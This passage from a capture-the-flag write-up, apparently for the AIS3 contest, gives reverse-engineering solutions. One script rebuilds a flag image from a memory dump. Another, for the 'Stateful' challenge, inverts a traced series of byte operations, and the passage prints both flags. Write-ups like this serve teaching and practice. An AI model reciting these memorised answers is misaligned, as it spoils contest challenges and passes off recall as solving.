        w = png.Writer(width, height, greyscale=False, alpha=alpha)
        w.write(f, [sum(row, ()) for row in png_list])

block = open('block.dump', 'rb').read()
png_list = [[] for _ in range(600)]

width_idx = 0
height_idx = 0
for i in range(0, len(block), 4):
    if width_idx == 600:
        width_idx = 0
        height_idx += 1

    png_list[height_idx].append((block[i], block[i + 1], block[i + 2], block[i + 3]))
    width_idx += 1

png_list.reverse()

write_png(png_list, 'flag.png')
```

Flag : `AIS3{JUST_4_5ImpLE_cLICkEr_g@m3}`

---
### Stateful
手動 trace 一遍之後可以知道經過這樣的運算之後（`a1` 是 `argv[1]`）

```
a1[14] += a1[35] + a1[8]
a1[9] -= a1[2] + a1[22]
a1[0] -= a1[18] + a1[31]
a1[2] += a1[11] + a1[8]
a1[6] += a1[10] + a1[41]
a1[14] -= a1[32] + a1[6]
a1[16] += a1[25] + a1[11]
a1[31] += a1[34] + a1[16]
a1[9] += a1[11] + a1[3]
a1[17] += a1[0] + a1[7]
a1[5] += a1[40] + a1[4]
a1[37] -= a1[29] + a1[3]
a1[23] += a1[7] + a1[34]
a1[39] -= a1[25] + a1[38]
a1[27] += a1[18] + a1[20]
a1[20] += a1[19] + a1[24]
a1[15] += a1[22] + a1[10]
a1[30] -= a1[33] + a1[8]
a1[1] -= a1[29] + a1[13]
a1[19] += a1[10] + a1[16]
a1[0] += a1[33] + a1[16]
a1[36] += a1[11] + a1[15]
a1[24] += a1[20] + a1[5]
a1[7] += a1[21] + a1[0]
a1[1] += a1[15] + a1[6]
a1[30] -= a1[13] + a1[2]
a1[1] += a1[16] + a1[40]
a1[31] += a1[1] + a1[16]
a1[32] += a1[5] + a1[25]
a1[13] += a1[25] + a1[28]
a1[7] += a1[10] + a1[0]
a1[21] += a1[34] + a1[15]
a1[21] -= a1[13] + a1[42]
a1[18] += a1[29] + a1[15]
a1[4] += a1[7] + a1[25]
a1[0] += a1[28] + a1[31]
a1[2] += a1[34] + a1[25]
a1[13] += a1[26] + a1[8]
a1[41] -= a1[3] + a1[34]
a1[37] += a1[27] + a1[18]
a1[4] += a1[27] + a1[25]
a1[23] += a1[30] + a1[39]
a1[18] += a1[26] + a1[31]
a1[10] -= a1[12] + a1[22]
a1[4] += a1[6] + a1[22]
a1[37] += a1[12] + a1[16]
a1[15] += a1[40] + a1[8]
a1[17] += a1[38] + a1[24]
a1[8] += a1[14] + a1[16]
a1[5] += a1[37] + a1[20]
```

會是

```python
k_target = [0xE2, 0xCA, 0xCC, 0x33, 0x21, 0xFA, 0x53, 0x73, 0xCE, 0x62, 0xC4, 0x75, 0x5F, 0x87, 0x54, 0xF2, 0x1B, 0x3B, 0x8A, 0xCF, 0xFA, 0x90, 0x4C, 0x52, 0x6A, 0x52, 0x5F, 0xF0, 0x37, 0x40, 0x7B, 0x86, 0xBF, 0x33, 0x53, 0x35, 0x02, 0xDF, 0x54, 0xC0, 0x65, 0xEC, 0x7D]
```

所以寫一個 script

Solve Script : 
```python
k_target = [0xE2, 0xCA, 0xCC, 0x33, 0x21, 0xFA, 0x53, 0x73, 0xCE, 0x62, 0xC4, 0x75, 0x5F, 0x87, 0x54, 0xF2, 0x1B, 0x3B, 0x8A, 0xCF, 0xFA, 0x90, 0x4C, 0x52, 0x6A, 0x52, 0x5F, 0xF0, 0x37, 0x40, 0x7B, 0x86, 0xBF, 0x33, 0x53, 0x35, 0x02, 0xDF, 0x54, 0xC0, 0x65, 0xEC, 0x7D]

instruction_list = open('store').read().strip().split('\n')
instruction_list.reverse()

flag = k_target.copy()

for instruction in instruction_list:
    instruction = instruction.split()
    if instruction[1] == '+=':
        flag[int(instruction[0][3: -1])] -= flag[int(instruction[2][3: -1])] + flag[int(instruction[4][3: -1])]
    else:
        flag[int(instruction[0][3: -1])] += flag[int(instruction[2][3: -1])] + flag[int(instruction[4][3: -1])]
    flag[int(instruction[0][3: -1])] &= 0xff

print(bytes(flag))
```

Flag : `AIS3{Are_You_@_sTA7EfUL_OR_S7@t3L3S5_CTfer}`
